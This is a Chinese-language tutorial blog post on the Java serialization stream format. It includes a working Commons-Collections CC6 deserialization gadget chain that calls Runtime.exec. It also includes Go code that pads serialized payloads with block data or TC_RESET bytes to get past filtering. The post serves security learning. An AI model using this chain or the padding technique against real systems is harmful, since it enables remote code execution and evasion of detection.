



+++
title= "Java反序列化协议入门"
slug= "java-deserialization-protocol-intro"
description= ""
date= "2025-10-10T19:41:19+08:00"
lastmod= "2025-10-10T19:41:19+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

## 官方文档学习

里面讲究太多了，可以看看这个官方文档

https://docs.oracle.com/javase/8/docs/platform/serialization/spec/protocol.html

## 初步理解序列化流的语法规则

语法规则很长很多，我们就看这几点

```java
stream:
  magic version contents

contents:
  content
  contents content

content:
  object
  blockdata

object:
  newObject
  newClass
  newArray
  newString
  newEnum
  newClassDesc
  prevObject
  nullReference
  exception
  TC_RESET
```

这是一个依次展开的巴科斯范式。我们从第一个stream开始看起，stream就是指完整的序列化协议流， 它是有三部分组成：magic、version和contents。在文档中我们可以找到定义好的常量值

```java
final static short STREAM_MAGIC = (short)0xaced;
final static short STREAM_VERSION = 5;
```

magic 等于 0xaced，version 等于5，这两个变量都是short类型，也就是两个字节的整型。由于序列化流最开头都是 stream，所以我们说序列化协议流是以`\xAC\xED\x00\x05`开头。

接着，看contents。这里实际上是一个简单的递归下降的规则， contents 可以由一个 content 组成，也可以由一个 contents 与一个 content 组成，而后面这种情况里的 contents 又可以继续由这两种情况组成，最后形成编译原理里所谓的左递归。可见，contents 是由一个或多个 content 组成。

继续往下看， content 又是由 object 或者 blockdata 组成。 blockdata 是一个由数据长度加数据本身组成的一个结构，里面可以填充任意内容，后面说到如何用这个点来做一些事情，但现在并不重要。

重要的还是 object ， object 就是真正包含Java对象的一个结构，在上面的 Grammer 中我们可以看到， object 是由下面任意一个结构组成：

- newObject ：表示一个对象 
- newClass ：表示一个类 
- newArray ：表示一个数组 
- newString ：表示一个字符串 
- newEnum ：表示一个枚举类型 
- newClassDesc ：表示一个类定义 
- prevObject ：一个引用，可以指向任意其他类型（通过Reference ID） 
- nullReference ：表示null 
- exception ：表示一个异常 
- TC_RESET ：重置Reference ID

其中有三个容易搞不清的地方对象 newObject 、类 newClass 和类定义 newClassDesc 。我们看一下这几个结构的 Grammer

```java
newObject:
  TC_OBJECT classDesc newHandle classdata[]  // data for each class

newClass:
  TC_CLASS classDesc newHandle


classDesc:
  newClassDesc
  nullReference
  (ClassDesc)prevObject
   
newClassDesc:
  TC_CLASSDESC className serialVersionUID newHandle classDescInfo
  TC_PROXYCLASSDESC newHandle proxyClassDescInfo
```

可以看到 newObject 和 newClass 都是由一个标示符+ classDesc + newHandle 组成，只不过 newObject 多一个 classdata[] 。原因是，它是一个对象，其包含了实例化类中的数据，这些数据就储存在 classdata[] 中。

classDesc 就是我们前面说的类定义，不过这个 classDesc 和前面的 newClassDesc 稍微有点区别，classDesc 可以是一个普通的 newClassDesc ，也可以是一个null，也可以是一个指针，指向任意前面 、已经出现过的其他的类定义。我们只要简单把 classDesc 理解为对 newClassDesc 的一个封装即可。

newHandle 是一个唯一ID，序列化协议里的每一个结构都拥有一个ID，这个ID由 0x7E0000 开始，每遇到下一个结构就+1，并设置成这个结构的唯一ID。

现在我们再以一个User类来演示

```java
package org.example;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

public class UserSerialize{
    public static class User implements Serializable {
        protected String name;
        protected User parent;
        public User(String name)
        {
            this.name = name;
        }
        public void setParent(User parent)
        {
            this.parent = parent;
        }
    }
    public static void main(String[] args) throws Exception {
        User user = new User("Bob");
        user.setParent(new User("Josua"));
        ByteArrayOutputStream byteSteam = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(byteSteam);
        oos.writeObject(user);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(byteSteam.toByteArray()));
    }
}
```

安装zkar来分析这个数据

```bash
mkdir zkar

go mod init local/zkar-tools
go get -u github.com/phith0n/zkar

# 查看是否成功安装
go run github.com/phith0n/zkar --help
package main

import (
    "encoding/base64"
    "fmt"
    "log"
    "strings"
    "github.com/phith0n/zkar/serz"
)

func main() {
    base64Data := "rO0ABXNyAB5vcmcuZXhhbXBsZS5Vc2VyU2VyaWFsaXplJFVzZXJbSqmsm4UmZQIAAkwABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZztMAAZwYXJlbnR0ACBMb3JnL2V4YW1wbGUvVXNlclNlcmlhbGl6ZSRVc2VyO3hwdAADQm9ic3EAfgAAdAAFSm9zdWFw"
    data, err := base64.StdEncoding.DecodeString(strings.TrimSpace(base64Data))
    if err != nil {
        log.Fatal("Base64解码失败:", err)
    }
    serialization, err := serz.FromBytes(data)
    if err != nil {
        log.Fatal("序列化分析失败:", err)
    }
    fmt.Println(serialization.ToString())
}
// go run main.go
```

得到了如下的Grammer

```go
@Magic - 0xac ed
@Version - 0x00 05
@Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      @ClassName
        @Length - 30 - 0x00 1e
        @Value - org.example.UserSerialize$User - 0x6f 72 67 2e 65 78 61 6d 70 6c 65 2e 55 73 65 72 53 65 72 69 61 6c 69 7a 65 24 55 73 65 72
      @SerialVersionUID - 6578256764536694373 - 0x5b 4a a9 ac 9b 85 26 65
      @Handler - 8257536
      @ClassDescFlags - SC_SERIALIZABLE - 0x02
      @FieldCount - 2 - 0x00 02
      []Fields
        Index 0:
          Object - L - 0x4c
          @FieldName
            @Length - 4 - 0x00 04
            @Value - name - 0x6e 61 6d 65
          @ClassName
            TC_STRING - 0x74
              @Handler - 8257537
              @Length - 18 - 0x00 12
              @Value - Ljava/lang/String; - 0x4c 6a 61 76 61 2f 6c 61 6e 67 2f 53 74 72 69 6e 67 3b
        Index 1:
          Object - L - 0x4c
          @FieldName
            @Length - 6 - 0x00 06
            @Value - parent - 0x70 61 72 65 6e 74
          @ClassName
            TC_STRING - 0x74
              @Handler - 8257538
              @Length - 32 - 0x00 20
              @Value - Lorg/example/UserSerialize$User; - 0x4c 6f 72 67 2f 65 78 61 6d 70 6c 65 2f 55 73 65 72 53 65 72 69 61 6c 69 7a 65 24 55 73 65 72 3b
      []ClassAnnotations
        TC_ENDBLOCKDATA - 0x78
      @SuperClassDesc
        TC_NULL - 0x70
    @Handler - 8257539
    []ClassData
      @ClassName - org.example.UserSerialize$User
        {}Attributes
          name
            TC_STRING - 0x74
              @Handler - 8257540
              @Length - 3 - 0x00 03
              @Value - Bob - 0x42 6f 62
          parent
            TC_OBJECT - 0x73
              TC_REFERENCE - 0x71
                @Handler - 8257536 - 0x00 7e 00 00
              @Handler - 8257541
              []ClassData
                @ClassName - org.example.UserSerialize$User
                  {}Attributes
                    name
                      TC_STRING - 0x74
                        @Handler - 8257542
                        @Length - 5 - 0x00 05
                        @Value - Josua - 0x4a 6f 73 75 61
                    parent
                      TC_NULL - 0x70
```

可见，这里 contents 只包含一个 newObject ，其第一部分是 ClassDesc ，包含了User这个类的信息，比如类名、SerialVersionUID、父类、属性列表等。 这个 classDesc 的ID就是8257536，而在 []classData 数组中，包含两个属性， name 和 parent ， parent 也是一个 newObject ，它实际上在源码中是一个User类对象，所以 classDesc 也是User类的信息，因为前面已经定义过了，所以这个类是一个Reference，ID也是8257536，表示指向前面User类的ClassDesc。

## 在序列化流中加入脏数据

### 在Payload后面

https://mp.weixin.qq.com/s/wvKfe4xxNXWEgtQE4PdTaQ 在这篇文章中，c0ny1师傅使用的方法是将可利用的对象放进集合对象中，然后在集合对象中填充脏字符。前面我们说过 blockdata 这个属性，content 是由 object 或 blockdata 组成， blockdata 就是一个适合用来填充脏字符的结构：

```go
content:
  object
  blockdata

blockdata:
  blockdatashort
  blockdatalong

blockdatashort:
  TC_BLOCKDATA (unsigned byte)<size> (byte)[size]

blockdatalong:
  TC_BLOCKDATALONG (int)<size> (byte)[size]
```

blockdata 有两种可能性： blockdatashort 或者 blockdatalong ，顾名思义，前者可以保存的数据较少，后者可以保存的数据较长。 选择使用 blockdatalong ：

她的结构分为三部分： 

- TC_BLOCKDATALONG 标示符 
- (int) 数据长度，是一个4字节的整型 
- (byte)[size] 数据具体的内容

使用CC3.2.1的依赖，选择CC6测试

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {
                new ConstantTransformer(1)
        };

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String[].class },
                        new Object[]{new String[]{"open", "-a", "Calculator"}}),
                new ConstantTransformer(1)
        };

        Transformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);

        TiedMapEntry entry = new TiedMapEntry(outerMap, "foo");

        HashSet<Object> hashSet = new HashSet<Object>();
        hashSet.add(entry);

        outerMap.remove("foo");
        Field transformersField = ChainedTransformer.class.getDeclaredField("iTransformers");
        transformersField.setAccessible(true);
        transformersField.set(chainedTransformer, transformers);

        String filename = "cc6.ser";
        serializeToFile(hashSet, filename);
        unserializeFromFile(filename);
    }
    public static void serializeToFile(Object obj, String filename) throws IOException {
        try (FileOutputStream fos = new FileOutputStream(filename);
             ObjectOutputStream oos = new ObjectOutputStream(fos)) {
            oos.writeObject(obj);
        }
    }
    public static Object unserializeFromFile(String filename)
            throws IOException, ClassNotFoundException {
        try (FileInputStream fis = new FileInputStream(filename);
             ObjectInputStream ois = new ObjectInputStream(fis)) {
            return ois.readObject();
        }
    }
}
```

现在使用zkar往`TC_BLOCKDATA`里面填入4w个a

```go
package main
import (
	"github.com/phith0n/zkar/serz"
	"io/ioutil"
	"log"
	"strings"
)
func main() {
	data, _ := ioutil.ReadFile("/Users/admin/Downloads/Jaba/Grammer/cc6.ser")
	serialization, err := serz.FromBytes(data)
	if err != nil {
		log.Fatal("parse error")
	}
	var blockData = &serz.TCContent{
		Flag: serz.JAVA_TC_BLOCKDATALONG,
		BlockData: &serz.TCBlockData{
			Data: []byte(strings.Repeat("a", 40000)),
		},
	}
	serialization.Contents = append(serialization.Contents, blockData)
	ioutil.WriteFile("/Users/admin/Downloads/Jaba/Grammer/cc6-padding.ser", serialization.ToBytes(), 0o755)
}
```

进行反序列化

```java
package org.example;

import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;

public class Unserialize {
    public static Object unserializeFromFile(String filename)
            throws IOException, ClassNotFoundException {
        try (FileInputStream fis = new FileInputStream(filename);
             ObjectInputStream ois = new ObjectInputStream(fis)) {
            return ois.readObject();
        }
    }
    public static void main(String[] args) throws Exception {
        String filename = "cc6-padding.ser";
        unserializeFromFile(filename);
    }
}
```



### 在Payload前面

```go
serialization.Contents = append([]*serz.TCContent{blockData}, serialization.Contents...)
```

反序列化时出现报错如下

```java
Exception in thread "main" java.io.OptionalDataException
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1585)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at org.example.Unserialize.unserializeFromFile(Unserialize.java:12)
	at org.example.Unserialize.main(Unserialize.java:17)

Process finished with exit code 1
```

我们前面说过在Java解析过程中。虽然在Grammer中， contents 被定义成一个左递归形式的循环结构， 但是实际上Java对这一部分处理如下：

```java
private Object readObject0(boolean unshared) throws IOException {
        boolean oldMode = bin.getBlockDataMode();
        if (oldMode) {
            int remain = bin.currentBlockRemaining();
            if (remain > 0) {
                throw new OptionalDataException(remain);
            } else if (defaultDataEnd) {
                /*
                 * Fix for 4360508: stream is currently at the end of a field
                 * value block written via default serialization; since there
                 * is no terminating TC_ENDBLOCKDATA tag, simulate
                 * end-of-custom-data behavior explicitly.
                 */
                throw new OptionalDataException(true);
            }
            bin.setBlockDataMode(false);
        }

        byte tc;
        while ((tc = bin.peekByte()) == TC_RESET) {
            bin.readByte();
            handleReset();
        }

        depth++;
        totalObjectRefs++;
        try {
            switch (tc) {
                case TC_NULL:
                    return readNull();

                case TC_REFERENCE:
                    return readHandle(unshared);

                case TC_CLASS:
                    return readClass(unshared);

                case TC_CLASSDESC:
                case TC_PROXYCLASSDESC:
                    return readClassDesc(unshared);

                case TC_STRING:
                case TC_LONGSTRING:
                    return checkResolve(readString(unshared));

                case TC_ARRAY:
                    return checkResolve(readArray(unshared));

                case TC_ENUM:
                    return checkResolve(readEnum(unshared));

                case TC_OBJECT:
                    return checkResolve(readOrdinaryObject(unshared));

                case TC_EXCEPTION:
                    IOException ex = readFatalException();
                    throw new WriteAbortedException("writing aborted", ex);

                case TC_BLOCKDATA:
                case TC_BLOCKDATALONG:
                    if (oldMode) {
                        bin.setBlockDataMode(true);
                        bin.peek();             // force header read
                        throw new OptionalDataException(
                            bin.currentBlockRemaining());
                    } else {
                        throw new StreamCorruptedException(
                            "unexpected block data");
                    }

                case TC_ENDBLOCKDATA:
                    if (oldMode) {
                        throw new OptionalDataException(true);
                    } else {
                        throw new StreamCorruptedException(
                            "unexpected end of block data");
                    }

                default:
                    throw new StreamCorruptedException(
                        String.format("invalid type code: %02X", tc));
            }
        } finally {
            depth--;
            bin.setBlockDataMode(oldMode);
        }
    }
```

发现只有`TC_RESET`会进入循环



此时因为我们 contents 里第一个结构是一个 blockdata ，所以会进入 case 的`TC_BLOCKDATALONG`中，而这里面就抛出了异常。

也就是说，Java只会处理 contents 里面除了 TC_RESET 之外的首个结构，而且这个结构不能是 blockdata、 exception 等。 

前面在 object 后填充一个 blockdata 的方法之所以可行，就是因为首个结构是 object ，处理完后反序列化就结束了， blockdata 根本没有处理，也就不会抛出异常了。 我们可以观察到，在处理 object 前Java会丢弃所有的 TC_RESET （实际上在Grammer中 TC_RESET 也是 object 的一种结构），那么我们用这个字符来填充不就可以了吗？

```go
package main
import (
	"github.com/phith0n/zkar/serz"
	"io/ioutil"
	"log"
)
func main() {
	data, _ := ioutil.ReadFile("/Users/admin/Downloads/Jaba/Grammer/cc6.ser")

	serialization, err := serz.FromBytes(data)
	if err != nil {
		log.Fatal("parse error")
	}
	var contents []*serz.TCContent
	for i := 0; i < 5000; i++ {
		var blockData = &serz.TCContent{
			Flag: serz.JAVA_TC_RESET,
		}
		contents = append(contents, blockData)
	}
	serialization.Contents = append(contents, serialization.Contents...)
	ioutil.WriteFile("/Users/admin/Downloads/Jaba/Grammer/cc6-padding.ser", serialization.ToBytes(), 0o755)
}
```

最后成功反序列化


